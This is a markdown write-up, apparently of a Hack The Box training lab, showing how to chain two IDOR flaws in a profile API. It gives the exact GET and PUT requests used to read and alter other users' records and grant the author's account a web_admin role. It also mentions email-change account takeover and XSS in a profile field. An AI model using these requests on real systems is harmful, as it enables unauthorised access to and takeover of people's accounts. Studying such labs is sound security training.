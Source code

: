 ```yaml
---
title: f-Chaining IDORs
draft: false
tags:
  - idor
---
```

Let's send a `GET` request with another `uid`:

```
GET /profile/api.php/profile/5 HTTP/1.1
Host: 83.136.254.113:42013
Content-Length: 208
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Content-type: application/json
Accept: */*
Origin: http://83.136.254.113:42013
Referer: http://83.136.254.113:42013/profile/index.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: role=employee
Connection: keep-alive
```

As we can see, this returned the details of another user, with their own `uuid` and `role`, confirming an `IDOR Information Disclosure vulnerability`:

```json
{
    "uid": "2",
    "uuid": "4a9bd19b3b8676199592a346051f950c",
    "role": "employee",
    "full_name": "Iona Franklyn",
    "email": "i_franklyn@employees.htb",
    "about": "It takes 20 years to build a reputation and few minutes of cyber-incident to ruin it."
}
```

Using above's IDOR, we can obtain `uuid` for different `uid`s.

## Modifying Other Users' Details

Now, with the user's `uuid` at hand, we can change this user's details by sending a `PUT` request to `/profile/api.php/profile/2` with the above details along with any modifications we made, as follows:

```
PUT /profile/api.php/profile/2 HTTP/1.1
Host: 83.136.254.113:42013
Content-Length: 208
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Content-type: application/json
Accept: */*
Origin: http://83.136.254.113:42013
Referer: http://83.136.254.113:42013/profile/index.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: role=employee
Connection: keep-alive

{"uid":2,"uuid":"4a9bd19b3b8676199592a346051f950c","role":"employee","full_name":"hacked","email":"a_lindon@employees.htb","about":"hacked"}
```

In addition to allowing us to view potentially sensitive details, the ability to modify another user's details also enables us to perform several other attacks. One type of attack is `modifying a user's email address` and then requesting a password reset link, which will be sent to the email address we specified, thus allowing us to take control over their account. Another potential attack is `placing an XSS payload in the 'about' field`, which would get executed once the user visits their `Edit profile` page, enabling us to attack the user in different ways.

## Chaining Two IDORs

Using a custom script that enumerate all users, we found admin user with the following detail:

```json
{
    "uid": "X",
    "uuid": "a36fa9e66e85f2dd6f5e13cad45248ae",
    "role": "web_admin",
    "full_name": "administrator",
    "email": "webadmin@employees.htb",
    "about": "HTB{FLAG}"
}
```

Now that we know the name for the admin role, we can give our self admin access:

```json
{
    "uid": "1",
    "uuid": "40f5888b67c748df7efba008e7c2f9d2",
    "role": "web_admin",
    "full_name": "Amy Lindon",
    "email": "a_lindon@employees.htb",
    "about": "A Release is like a boat. 80% of the holes plugged is not good enough."
}
```

